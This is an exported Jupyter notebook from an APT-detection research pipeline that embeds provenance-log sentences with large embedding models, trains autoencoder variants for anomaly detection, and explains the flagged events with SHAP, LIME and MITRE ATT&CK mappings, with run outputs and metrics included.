            
            print("Calculating LIME perturbations...")
            for text in raw_apt_log:
                lime_exp = lime_explainer.explain_instance(text, lime_predict_wrapper, num_features=5)
                
                print("Top LIME Anomaly Drivers:")
                for word, weight in lime_exp.as_list():
                    clean_word = word.strip().lower()
                    if len(clean_word) > 1:
                        print(f" -> '{clean_word}' (LIME Weight: {weight:+.4f})")
                        mapped = False
                        if USE_LLM_MAPPING:
                            mitre_technique = get_mitre_from_llm(text, clean_word)
                            if "[Error]" not in mitre_technique:
                                print(f"    [!] LLaMA-3 MITRE MAPPING: {mitre_technique}")
                                mapped = True

                        if not mapped:
                            for key, mitre_technique in MITRE_MAPPING.items():
                                if key in clean_word or clean_word in key:
                                    print(f"    [!] STATIC MAPPING: {mitre_technique}")
                                    mapped = True
                        if not mapped:
                            print("    [i] No MITRE mapping found.")

            # ==========================================
            # 9. RUN SHAP 
            # ==========================================
            print("\nCalculating SHAP values (Optimized speed...)")
            shap_values = shap_explainer(raw_apt_log, max_evals=100)
            
            print("\n" + "="*80)
            print("SHAP EXPLAINABILITY & LLaMA 3 MITRE MAPPING")
            print("="*80)

            for i, text in enumerate(raw_apt_log):
                words = shap_values.data[i]
                impact_scores = shap_values.values[i]
                
                # Sorted by absolute magnitude to catch all strong drivers
                word_impacts = sorted(zip(words, impact_scores), key=lambda x: abs(x[1]), reverse=True)
                
                print("Top SHAP Anomaly Drivers:")
                for word, score in word_impacts[:5]: 
                    clean_word = word.strip().lower()
                    if len(clean_word) > 1:
                        print(f" -> '{clean_word}' (Anomaly Impact: {score:+.4f})")
                        mapped = False
                        if USE_LLM_MAPPING:
                            mitre_technique = get_mitre_from_llm(raw_apt_log[0], clean_word)
                            if "[Error]" not in mitre_technique:
                                print(f"    [!] LLaMA-3 MITRE MAPPING: {mitre_technique}")
                                mapped = True

                        if not mapped:
                            for key, mitre_technique in MITRE_MAPPING.items():
                                if key in clean_word or clean_word in key:
                                    print(f"    [!] STATIC MAPPING: {mitre_technique}")
                                    mapped = True
                        if not mapped:
                            print("    [i] No MITRE mapping found.")

    except NameError:
        print("[!] The 'all_data' variable is not loaded.")

Loading all_data_with_sentences.pkl...
✓ Data loaded successfully!
------------------------------------------------------------
INITIALIZING FORENSICS PIPELINE (SHAP + LIME + LLaMA 3)
------------------------------------------------------------
✓ Loaded weights safely: saved_weights_nvembed_v2\theia_ProcessAll_Baseline.pth
Loading nvidia/NV-Embed-v2 with 4-bit Quantization & CPU Offloading...


c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\huggingface_hub\file_download.py:949: FutureWarning: `resume_download` is deprecated and will be removed in version 1.0.0. Downloads always resume when possible. If you want to force a new download, use `force_download=True`.
  warnings.warn(
Loading checkpoint shards: 100%|██████████| 4/4 [00:20<00:00,  5.19s/it]



Analyzing True Positive Anomaly:
>>> 'Process has event clone and event mmap and event mprotect and event open and event read and event recvfrom and executable /home/admin/profile and executable /home/admin/clean.1 and executable N/A.1 and network 161.116.88.72 and network 80'

LIME EXPLAINABILITY & LLaMA 3 MITRE MAPPING
Calculating LIME perturbations...


C:\Users\MOHAMMEDWALEEDKHAN\.cache\huggingface\modules\transformers_modules\nvidia\NV-Embed-v2\3fa59658547db50a1e8e3346cf057fd0c77ed6ef\modeling_nvembed.py:347: UserWarning: To copy construct from a tensor, it is recommended to use sourceTensor.detach().clone() or sourceTensor.detach().clone().requires_grad_(True), rather than torch.tensor(sourceTensor).
  'input_ids': torch.tensor(batch_dict.get('input_ids').to(batch_dict.get('input_ids')).long()),


Top LIME Anomaly Drivers:
 -> 'process' (LIME Weight: -0.0000)
    [i] No MITRE mapping found.
 -> 'event' (LIME Weight: -0.0000)
    [!] STATIC MAPPING: T1055 - Process Injection / Execution
    [!] STATIC MAPPING: T1059 - Command and Scripting Interpreter
    [!] STATIC MAPPING: T1055 - Process Injection / Execution
    [!] STATIC MAPPING: T1055 - Process Injection
 -> 'mprotect' (LIME Weight: -0.0000)
    [i] No MITRE mapping found.
 -> 'home' (LIME Weight: -0.0000)
    [i] No MITRE mapping found.
 -> 'has' (LIME Weight: -0.0000)
    [i] No MITRE mapping found.

Calculating SHAP values (Optimized speed...)


C:\Users\MOHAMMEDWALEEDKHAN\.cache\huggingface\modules\transformers_modules\nvidia\NV-Embed-v2\3fa59658547db50a1e8e3346cf057fd0c77ed6ef\modeling_nvembed.py:347: UserWarning: To copy construct from a tensor, it is recommended to use sourceTensor.detach().clone() or sourceTensor.detach().clone().requires_grad_(True), rather than torch.tensor(sourceTensor).
  'input_ids': torch.tensor(batch_dict.get('input_ids').to(batch_dict.get('input_ids')).long()),
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\contextlib.py:105: FutureWarning: `torch.backends.cuda.sdp_kernel()` is deprecated. In the future, this context manager will be removed. Please see `torch.nn.attention.sdpa_kernel()` for the new context manager, with updated signature.
  self.gen = func(*args, **kwds)
C:\Users\MOHAMMEDWALEEDKHAN\.cache\huggingface\modules\transformers_modules\nvidia\NV-Embed-v2\3fa59658547db50a1e8e3346cf057fd0c77ed6ef\modeling_nvembed.py:347: UserWarning: To copy construct from a tensor


SHAP EXPLAINABILITY & LLaMA 3 MITRE MAPPING
Top SHAP Anomaly Drivers:
 -> 'process' (Anomaly Impact: -0.0000)
    [i] No MITRE mapping found.
 -> 'has' (Anomaly Impact: -0.0000)
    [i] No MITRE mapping found.
 -> 'event' (Anomaly Impact: -0.0000)
    [!] STATIC MAPPING: T1055 - Process Injection / Execution
    [!] STATIC MAPPING: T1059 - Command and Scripting Interpreter
    [!] STATIC MAPPING: T1055 - Process Injection / Execution
    [!] STATIC MAPPING: T1055 - Process Injection
 -> 'clone' (Anomaly Impact: -0.0000)
    [!] STATIC MAPPING: T1055 - Process Injection / Execution


### 2. `Alibaba-NLP/gte-Qwen2-7B-instruct`

#### Embedding generation

In [ ]:
import pandas as pd
import numpy as np
import torch
import torch.nn.functional as F
import pickle
import os
from transformers import AutoTokenizer, AutoModel, PreTrainedModel, BitsAndBytesConfig

# ==========================================
# 1. CONFIGURATION
# ==========================================
INPUT_FILE = 'all_data_with_sentences.pkl'
MODEL_NAME = 'Alibaba-NLP/gte-Qwen2-7B-instruct'

# 4-bit quantization shrinks the model to ~4.5GB.
# A batch size of 8 is highly efficient and safe for 16GB VRAM.
BATCH_SIZE = 8

# [SPEED FIX] Dropped from 2048 to 512. 
# This instantly doubles processing speed while retaining plenty 
# of context for critical log event data.
MAX_SEQ_LENGTH = 512

# ==========================================
# 2. LOAD RESOURCES
# ==========================================
device = 'cuda' if torch.cuda.is_available() else 'cpu'
print(f"Using device: {device.upper()}")

# Monkey patch for legacy transformer version compatibility
if not hasattr(PreTrainedModel, "all_tied_weights_keys"):
    PreTrainedModel.all_tied_weights_keys = property(lambda self: [])

print(f"Loading model: {MODEL_NAME} (4-Bit Quantized + Flash Attention)...")

# Setup 4-bit Quantization Configuration
quant_config = BitsAndBytesConfig(
    load_in_4bit=True,
    bnb_4bit_compute_dtype=torch.float16, 
    bnb_4bit_use_double_quant=True,       
    bnb_4bit_quant_type="nf4"             
)

# Load Tokenizer & Model
tokenizer = AutoTokenizer.from_pretrained(MODEL_NAME, trust_remote_code=True)

# Load the model with quantization AND Flash Attention 2
model = AutoModel.from_pretrained(
    MODEL_NAME, 
    trust_remote_code=True, 
    quantization_config=quant_config,
    device_map=device,
    attn_implementation="flash_attention_2"  # [SPEED FIX] Hardware acceleration
)
model.eval()

if os.path.exists(INPUT_FILE):
    print(f"Loading data from {INPUT_FILE}...")
    with open(INPUT_FILE, 'rb') as f:
        all_data = pickle.load(f)
else:
    raise FileNotFoundError(f"Missing {INPUT_FILE}. Run the sentence generation step first.")

# ==========================================
# 3. HELPER: LAST TOKEN POOLING
# ==========================================
def last_token_pool(last_hidden_states, attention_mask):
    """
    Extracts the embedding from the last token (End of Sentence).
    Standard strategy for Decoder-only models (Qwen, Mistral, Llama).
    """
    left_padding = (attention_mask[:, -1].sum() == attention_mask.shape[0])
    
    if left_padding:
        return last_hidden_states[:, -1]
    else:
        sequence_lengths = attention_mask.sum(dim=1) - 1
        batch_size = last_hidden_states.shape[0]
        return last_hidden_states[torch.arange(batch_size, device=last_hidden_states.device), sequence_lengths]

def get_qwen_embeddings(text_list, model, tokenizer, batch_size=1):
    all_embeddings = []
    total = len(text_list)
    
    for i in range(0, total, batch_size):
        batch_texts = text_list[i : i + batch_size]
        
        # Tokenize with strict MAX_SEQ_LENGTH
        batch_dict = tokenizer(
            batch_texts, 
            max_length=MAX_SEQ_LENGTH, 
            padding=True, 
            truncation=True, 
            return_tensors='pt'
        )
        
        # Move inputs to GPU
        batch_dict = {k: v.to(device) for k, v in batch_dict.items()}
        
        with torch.no_grad():
            outputs = model(**batch_dict)
            
            # Pool: Extract embedding from the last non-padding token
            embeddings = last_token_pool(outputs.last_hidden_state, batch_dict['attention_mask'])
            
            # Normalize (Critical for Cosine Similarity)
            embeddings = F.normalize(embeddings, p=2, dim=1)
            
            # Instantly move to CPU to free up VRAM
            all_embeddings.extend(embeddings.cpu().numpy())
            
        print(f"    Processed {min(i + batch_size, total)}/{total}...", end="\r")
            
    print("") 
    return all_embeddings

# ==========================================
# 4. GENERATE EMBEDDINGS
# ==========================================
print("\n" + "="*80)
print(f"GENERATING EMBEDDINGS ({MODEL_NAME})")
print("="*80)

for performer in all_data:
    print(f"\n--- Processing Performer: {performer.upper()} ---")
    
    for context in all_data[performer]:
        df = all_data[performer][context]
        
        if 'sentence' not in df.columns:
            print(f"  [!] Skipping {context} (No sentences found)")
            continue
            
        print(f"  -> {context} ({len(df)} rows)...")
        
        try:
            # [SPEED FIX] Smart Batching: Sort sentences by length to eliminate padding math
            df['seq_len'] = df['sentence'].astype(str).apply(len)
            df = df.sort_values('seq_len').reset_index(drop=True)
            
            sentences = df['sentence'].tolist()
            
            # Generate
            embeddings = get_qwen_embeddings(sentences, model, tokenizer, BATCH_SIZE)
            
            if len(embeddings) != len(df):
                print(f"  [!] Mismatch: {len(embeddings)} vs {len(df)}")
                continue

            # Drop the temporary length column and append embeddings
            df = df.drop(columns=['seq_len'])
            df['embedding'] = list(embeddings)
            all_data[performer][context] = df
            print(f"     ✓ Done.")
            
        except Exception as e:
            print(f"\n  [!] Error processing {context}: {e}")
            
        finally:
            # [CRITICAL OOM FIX] Force flush the VRAM after every chunk
            torch.cuda.empty_cache()

# ==========================================
# 5. SAVE DATA (CHUNKED)
# ==========================================
# Create safe filename from model name
safe_name = "gte_qwen2_7b"
SAVE_DIR = f"processed_embeddings_{safe_name}"
os.makedirs(SAVE_DIR, exist_ok=True)

print(f"\nAttempting to save {MODEL_NAME} chunks to: {os.path.abspath(SAVE_DIR)}")

if 'all_data' in locals() and all_data:
    for performer in all_data:
        for context in all_data[performer]:
            try:
                df = all_data[performer][context]
                filename = f"{performer}_{context}_{safe_name}.pkl"
                filepath = os.path.join(SAVE_DIR, filename)
                
                print(f"Saving {filename}...", end=" ")
                with open(filepath, 'wb') as f:
                    pickle.dump(df, f)
                print("Success.")
                
            except Exception as e:
                print(f"Failed to save {filename}: {e}")
    
    print(f"\n✓ All data saved to '{SAVE_DIR}'")
    
else:
    print("CRITICAL: The 'all_data' variable is gone from memory.")

#### Train test split

In [1]:
import os
import pickle
import numpy as np

# ==========================================
# 1. CONFIGURATION
# ==========================================
# The folder where your Qwen2 generated embeddings are stored
SOURCE_FOLDER = "processed_embeddings_qwen2_hf" 
# The folder where you want the final train/test splits saved
BASE_DIR = "final_train_test_split_qwen2_hf"     
RANDOM_SEED = 42

def process_and_save(filepath):
    filename = os.path.basename(filepath)
    print(f"\nProcessing: {filename}...")
    
    # --- 1. Load the Pickle File ---
    with open(filepath, 'rb') as f:
        df = pickle.load(f)
    
    # --- 2. Extract Embeddings (X) and Labels (y) ---
    X = np.vstack(df['embedding'].values)
    y = df['label'].values
    
    # --- 3. Separate Benign (0) and Anomalous (1) ---
    benign_mask = (y == 0)
    anom_mask = (y == 1)
    
    X_benign = X[benign_mask]
    X_anom = X[anom_mask]
    
    print(f"  -> Raw Counts: {len(X_benign)} Benign, {len(X_anom)} Anomalous")
    
    # --- 4. Shuffle Benign Data ---
    np.random.seed(RANDOM_SEED)
    np.random.shuffle(X_benign)
    
    # --- 5. Perform the 80/20 Split ---
    split_point = int(len(X_benign) * 0.8)
    
    # TRAIN SET: First 80% of Benign samples ONLY
    X_train = X_benign[:split_point]
    y_train = np.zeros(len(X_train))
    
    # TEST SET: Remaining 20% Benign + ALL Anomalous samples
    X_test_benign = X_benign[split_point:]
    X_test = np.concatenate([X_test_benign, X_anom])
    y_test = np.concatenate([np.zeros(len(X_test_benign)), np.ones(len(X_anom))])
    
    print(f"  -> Split Complete. Train: {X_train.shape}, Test: {X_test.shape}")
    
    # --- 6. Organize and Save ---
    # Clean up the key name by removing possible Qwen2 suffixes
    key_name = filename.replace(".pkl", "").replace("_qwen2_hf", "").replace("_gte_qwen2_7b", "") 
    
    # Try to split by underscore to get performer and context
    parts = key_name.split('_', 1) 
    if len(parts) == 2:
        performer = parts[0]
        context = parts[1]
    else:
        # Fallback if the filename doesn't have an underscore
        performer = "unknown_performer"
        context = key_name

    train_dir = os.path.join(BASE_DIR, performer, "train")
    test_dir = os.path.join(BASE_DIR, performer, "test")
    
    os.makedirs(train_dir, exist_ok=True)
    os.makedirs(test_dir, exist_ok=True)
    
    # Save TRAIN
    train_file = os.path.join(train_dir, f"{context}.pkl")
    with open(train_file, 'wb') as f:
        pickle.dump({'X': X_train, 'y': y_train}, f)
        
    # Save TEST
    test_file = os.path.join(test_dir, f"{context}.pkl")
    with open(test_file, 'wb') as f:
        pickle.dump({'X': X_test, 'y': y_test}, f)
        
    print(f"  ✓ Saved to: {train_file} and {test_file}")


# ==========================================
# 2. EXECUTION LOOP
# ==========================================
print(f"Saving organized datasets to: {os.path.abspath(BASE_DIR)}")
print("-" * 80)

if not os.path.exists(SOURCE_FOLDER):
    print(f"[!] Error: The input folder '{SOURCE_FOLDER}' does not exist.")
else:
    files = [f for f in os.listdir(SOURCE_FOLDER) if f.endswith(".pkl")]
    
    if not files:
        print(f"[!] No .pkl files found inside {SOURCE_FOLDER}")
    else:
        print(f"Found {len(files)} datasets. Starting load, split, and save process...\n")
        
        for file in files:
            full_path = os.path.join(SOURCE_FOLDER, file)
            try:
                process_and_save(full_path)
            except MemoryError:
                print(f"  [CRITICAL] MemoryError while processing {file}. RAM is full.")
            except Exception as e:
                print(f"  [!] Unexpected error on {file}: {e}")

print("\n" + "="*80)
print("ORGANIZED SAVE COMPLETE FOR QWEN2!")
print("="*80)

Saving organized datasets to: d:\Waleed FYP\final_train_test_split_qwen2_hf
--------------------------------------------------------------------------------
Found 25 datasets. Starting load, split, and save process...


Processing: 5dir_ProcessAll_qwen2_7b_bnb4bit.pkl...
  -> Raw Counts: 11142 Benign, 9 Anomalous
  -> Split Complete. Train: (8913, 3584), Test: (2238, 3584)
  ✓ Saved to: final_train_test_split_qwen2_hf\5dir\train\ProcessAll_qwen2_7b_bnb4bit.pkl and final_train_test_split_qwen2_hf\5dir\test\ProcessAll_qwen2_7b_bnb4bit.pkl

Processing: 5dir_ProcessEvent_qwen2_7b_bnb4bit.pkl...
  -> Raw Counts: 11142 Benign, 9 Anomalous
  -> Split Complete. Train: (8913, 3584), Test: (2238, 3584)
  ✓ Saved to: final_train_test_split_qwen2_hf\5dir\train\ProcessEvent_qwen2_7b_bnb4bit.pkl and final_train_test_split_qwen2_hf\5dir\test\ProcessEvent_qwen2_7b_bnb4bit.pkl

Processing: 5dir_ProcessExec_qwen2_7b_bnb4bit.pkl...
  -> Raw Counts: 11068 Benign, 9 Anomalous
  -> Split Complete. Train: (8

#### Training AEs and saving `.pth` files

In [11]:
import os
import pickle
import time
import numpy as np
import pandas as pd
import torch
import torch.nn as nn
import torch.optim as optim
from torch.utils.data import DataLoader, TensorDataset
from sklearn.metrics import roc_auc_score, ndcg_score, dcg_score

# ==========================================
# 1. CONFIGURATION
# ==========================================
# Updated directories for Qwen2
BASE_DIR = "final_train_test_split_qwen2_hf"
RESULTS_FILE = "results_all_autoencoders_qwen2_hf.csv"
MODEL_SAVE_DIR = "saved_weights_qwen2_hf"
DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'

# Hyperparameters
BATCH_SIZE = 128    
EPOCHS = 15         
LR = 0.001          
# [CRITICAL UPDATE] Qwen2-7B-instruct uses 3584 dimensions, NOT 4096
INPUT_DIM = 3584    

# Specialty Hyperparameters
NOISE_FACTOR = 0.2  # Denoising AE
SPARSE_REG = 1e-4   # Sparse AE L1 penalty
BETA = 4.0          # Beta-VAE weight
CAE_LAMBDA = 1e-4   # Contractive AE Jacobian penalty

os.makedirs(MODEL_SAVE_DIR, exist_ok=True)
print(f"Running on Device: {DEVICE.upper()}")
print("-" * 60)

# ==========================================
# 2. MODEL ARCHITECTURES
# ==========================================

# --- 1, 3, 4, 10, 11. Vanilla AE (Used for Baseline, DAE, Sparse, Robust, Contractive) ---
class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
        self.encoder = nn.Sequential(
            nn.Linear(input_dim, 1024), nn.ReLU(),
            nn.Linear(1024, 256), nn.ReLU()
        )
        self.decoder = nn.Sequential(
            nn.Linear(256, 1024), nn.ReLU(),
            nn.Linear(1024, input_dim)
        )
    def forward(self, x):
        return self.decoder(self.encoder(x))

# --- 2. Deep SVDD (Encoder mapping to hypersphere center) ---
class DeepSVDDNet(nn.Module):
    def __init__(self, input_dim):
        super(DeepSVDDNet, self).__init__()
        self.encoder = nn.Sequential(
            nn.Linear(input_dim, 1024), nn.ReLU(),
            nn.Linear(1024, 128) # Small latent space
        )
    def forward(self, x):
        return self.encoder(x)

# --- 5, 6. Variational AE (Used for VAE and Beta-VAE) ---
class VAE(nn.Module):
    def __init__(self, input_dim):
        super(VAE, self).__init__()
        self.fc1 = nn.Linear(input_dim, 1024)
        self.fc2_mu = nn.Linear(1024, 256)
        self.fc2_logvar = nn.Linear(1024, 256)
        self.fc3 = nn.Linear(256, 1024)
        self.fc4 = nn.Linear(1024, input_dim)

    def encode(self, x):
        h1 = torch.relu(self.fc1(x))
        return self.fc2_mu(h1), self.fc2_logvar(h1)

    def reparameterize(self, mu, logvar):
        std = torch.exp(0.5 * logvar)
        eps = torch.randn_like(std)
        return mu + eps * std

    def forward(self, x):
        mu, logvar = self.encode(x)
        z = self.reparameterize(mu, logvar)
        h3 = torch.relu(self.fc3(z))
        return self.fc4(h3), mu, logvar

# --- 7. GMVAE (Simplified Gaussian Mixture VAE) ---
class GMVAE(nn.Module):
    def __init__(self, input_dim, n_components=5):
        super(GMVAE, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU())
        self.mu = nn.Linear(1024, 256)
        self.logvar = nn.Linear(1024, 256)
        self.pi = nn.Linear(1024, n_components) # Categorical prior
        self.decoder = nn.Sequential(nn.Linear(256, 1024), nn.ReLU(), nn.Linear(1024, input_dim))
        
    def forward(self, x):
        h = self.encoder(x)
        mu, logvar, pi = self.mu(h), self.logvar(h), torch.softmax(self.pi(h), dim=-1)
        std = torch.exp(0.5 * logvar)
        z = mu + torch.randn_like(std) * std
        return self.decoder(z), mu, logvar, pi

# --- 8. Attention AE ---
class AttentionAE(nn.Module):
    def __init__(self, input_dim):
        super(AttentionAE, self).__init__()
        self.attn = nn.MultiheadAttention(embed_dim=input_dim, num_heads=8, batch_first=True)
        self.encoder = nn.Sequential(nn.Linear(input_dim, 256), nn.ReLU())
        self.decoder = nn.Sequential(nn.Linear(256, input_dim))
        
    def forward(self, x):
        # Self-attention requires 3D shape: (batch, seq, feature)
        x_seq = x.unsqueeze(1) 
        attn_out, _ = self.attn(x_seq, x_seq, x_seq)
        attn_out = attn_out.squeeze(1)
        return self.decoder(self.encoder(attn_out))

# --- 9. LSTM AE ---
class LSTMAE(nn.Module):
    def __init__(self, input_dim):
        super(LSTMAE, self).__init__()
        self.encoder = nn.LSTM(input_dim, 256, batch_first=True)
        self.decoder = nn.LSTM(256, input_dim, batch_first=True)
        
    def forward(self, x):
        # Fake sequence length of 1
        x_seq = x.unsqueeze(1)
        _, (hidden, _) = self.encoder(x_seq)
        # Repeat hidden state for decoder (seq_len = 1)
        hidden_rep = hidden[-1].unsqueeze(1)
        out, _ = self.decoder(hidden_rep)
        return out.squeeze(1)


# ==========================================
# 3. GENERIC TRAINING FUNCTION
# ==========================================
def train_model(model_name, X_train, X_test, y_test, performer, context):
    
    # Initialize appropriate model
    if model_name in ['Baseline', 'Sparse', 'DAE', 'Robust', 'Contractive']:
        model = VanillaAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'Deep SVDD':
        model = DeepSVDDNet(INPUT_DIM).to(DEVICE)
        center = torch.zeros(128, device=DEVICE) 
    elif model_name in ['VAE', 'Beta-VAE']:
        model = VAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'GMVAE':
        model = GMVAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'Attention AE':
        model = AttentionAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'LSTMAE':
        model = LSTMAE(INPUT_DIM).to(DEVICE)

    optimizer = optim.Adam(model.parameters(), lr=LR)
    criterion = nn.L1Loss() if model_name == 'Robust' else nn.MSELoss()

    train_loader = DataLoader(TensorDataset(torch.FloatTensor(X_train).to(DEVICE)), batch_size=BATCH_SIZE, shuffle=True)
    tensor_test = torch.FloatTensor(X_test).to(DEVICE)

    start_time = time.time()
    model.train()
    
    for epoch in range(EPOCHS):
        for batch in train_loader:
            x_batch = batch[0]
            model_input = x_batch
            
            if model_name == 'DAE':
                model_input = x_batch + torch.randn_like(x_batch) * NOISE_FACTOR

            optimizer.zero_grad()
            
            # Forward & Loss branching
            if model_name == 'Deep SVDD':
                z = model(model_input)
                loss = torch.mean(torch.sum((z - center) ** 2, dim=1))
            
            elif model_name in ['VAE', 'Beta-VAE']:
                recon, mu, logvar = model(model_input)
                recon_loss = nn.functional.mse_loss(recon, x_batch, reduction='sum')
                kld_loss = -0.5 * torch.sum(1 + logvar - mu.pow(2) - logvar.exp())
                beta = BETA if model_name == 'Beta-VAE' else 1.0
                loss = recon_loss + beta * kld_loss
                
            elif model_name == 'GMVAE':
                recon, mu, logvar, pi = model(model_input)
                loss = nn.functional.mse_loss(recon, x_batch) 
                
            else:
                recon = model(model_input)
                loss = criterion(recon, x_batch)
                
                # Special Penalties
                if model_name == 'Sparse':
                    l1_penalty = sum(p.abs().sum() for p in model.encoder.parameters())
                    loss += SPARSE_REG * l1_penalty
                elif model_name == 'Contractive':
                    hidden = model.encoder(x_batch)
                    loss += CAE_LAMBDA * torch.sum(hidden ** 2)

            loss.backward()
            optimizer.step()
            
    train_time = time.time() - start_time

    # --- SAVE WEIGHTS FOR SHAP/LIME ---
    weight_filename = f"{performer}_{context}_{model_name.replace(' ', '')}.pth"
    torch.save(model.state_dict(), os.path.join(MODEL_SAVE_DIR, weight_filename))

    # --- EVALUATION ---
    model.eval()
    errors = []
    with torch.no_grad():
        if model_name == 'Deep SVDD':
            z = model(tensor_test)
            errors = torch.sum((z - center) ** 2, dim=1).cpu().numpy()
        elif model_name in ['VAE', 'Beta-VAE']:
            recon, _, _ = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()
        elif model_name == 'GMVAE':
            recon, _, _, _ = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()
        elif model_name == 'Robust':
            recon = model(tensor_test)
            errors = torch.mean(torch.abs(tensor_test - recon), dim=1).cpu().numpy()
        else:
            recon = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()

    # --- METRICS CALCULATION ---
    try:
        auc = roc_auc_score(y_test, errors)
    except:
        auc = 0.0

    try:
        # Calculate DCG based on model predictions (errors used as scores)
        dcg = dcg_score([y_test], [errors])
        # Calculate IDCG using the true labels as the perfect ranking scores
        idcg = dcg_score([y_test], [y_test])
        # nDCG is the normalized ratio
        ndcg = ndcg_score([y_test], [errors])
    except Exception as e:
        dcg, idcg, ndcg = 0.0, 0.0, 0.0

    return {
        "Model": model_name,
        "AUC-ROC": round(auc, 4),
        "DCG": round(dcg, 4),
        "IDCG": round(idcg, 4),
        "nDCG": round(ndcg, 4),
        "Time(s)": round(train_time, 2)
    }

# ==========================================
# 4. EXECUTION
# ==========================================
all_results = []
models_to_run = [
    'Baseline', 'Sparse', 'Deep SVDD', 'DAE', 'VAE', 'Beta-VAE', 
    'GMVAE', 'Attention AE', 'LSTMAE', 'Robust', 'Contractive'
]

if not os.path.exists(BASE_DIR):
    print(f"[!] Error: {BASE_DIR} missing.")
else:
    # Ignore hidden folders like .cache
    performers = [
        p for p in os.listdir(BASE_DIR) 
        if os.path.isdir(os.path.join(BASE_DIR, p)) and not p.startswith('.')
    ]
    
    for performer in performers:
        train_dir = os.path.join(BASE_DIR, performer, "train")
        test_dir = os.path.join(BASE_DIR, performer, "test")
        
        if not os.path.exists(train_dir) or not os.path.exists(test_dir):
            print(f"  [!] Skipping '{performer}' - Train or Test subfolders missing.")
            continue
            
        files = [f for f in os.listdir(train_dir) if f.endswith('.pkl')]
        
        for file in files:
            context = file.replace('.pkl', '')
            print(f"\nProcessing: {performer.upper()} - {context}")
            
            try:
                with open(os.path.join(train_dir, file), 'rb') as f:
                    X_train = pickle.load(f)['X']
                with open(os.path.join(test_dir, file), 'rb') as f:
                    pkg = pickle.load(f)
                    X_test = pkg['X']
                    y_test = pkg['y']
                
                print(f"  Samples: {len(X_train)} Train | {len(X_test)} Test")

                for m_name in models_to_run:
                    print(f"    -> Training {m_name}...", end=" ")
                    res = train_model(m_name, X_train, X_test, y_test, performer, context)
                    
                    res['Performer'] = performer
                    res['Context'] = context
                    all_results.append(res)
                    print(f"Done. AUC: {res['AUC-ROC']} | nDCG: {res['nDCG']} (DCG: {res['DCG']}, IDCG: {res['IDCG']})")

            except Exception as e:
                print(f"    [!] Failed: {e}")

# ==========================================
# 5. SAVE RESULTS
# ==========================================
if all_results:
    df_res = pd.DataFrame(all_results)
    # Reordered columns to include all metrics cleanly
    df_res = df_res[['Performer', 'Context', 'Model', 'AUC-ROC', 'DCG', 'IDCG', 'nDCG', 'Time(s)']]
    df_res.to_csv(RESULTS_FILE, index=False)
    
    print("\n" + "="*60)
    print("FINAL RESULTS SUMMARY")
    print("="*60)
    print(df_res.to_string(index=False))
    print(f"\nSaved metrics to {RESULTS_FILE}")
    print(f"Saved model weights to ./{MODEL_SAVE_DIR}/")
else:
    print("No results to save.")

Running on Device: CUDA
------------------------------------------------------------

Processing: 5DIR - ProcessAll_qwen2_7b_bnb4bit
  Samples: 8913 Train | 2238 Test
    -> Training Baseline... Done. AUC: 0.9499 | nDCG: 0.3489 (DCG: 1.4846, IDCG: 4.2545)
    -> Training Sparse... Done. AUC: 0.9569 | nDCG: 0.3613 (DCG: 1.5372, IDCG: 4.2545)
    -> Training Deep SVDD... Done. AUC: 0.611 | nDCG: 0.4407 (DCG: 1.8751, IDCG: 4.2545)
    -> Training DAE... Done. AUC: 0.956 | nDCG: 0.452 (DCG: 1.9231, IDCG: 4.2545)
    -> Training VAE... Done. AUC: 0.9104 | nDCG: 0.3398 (DCG: 1.4459, IDCG: 4.2545)
    -> Training Beta-VAE... Done. AUC: 0.9439 | nDCG: 0.3767 (DCG: 1.6029, IDCG: 4.2545)
    -> Training GMVAE... Done. AUC: 0.9582 | nDCG: 0.3791 (DCG: 1.6128, IDCG: 4.2545)
    -> Training Attention AE... Done. AUC: 0.5199 | nDCG: 0.2754 (DCG: 1.1715, IDCG: 4.2545)
    -> Training LSTMAE... Done. AUC: 0.5097 | nDCG: 0.2703 (DCG: 1.1501, IDCG: 4.2545)
    -> Training Robust... Done. AUC: 0.9461 | n

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(


Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training DAE... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training VAE... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training Beta-VAE... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(


Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
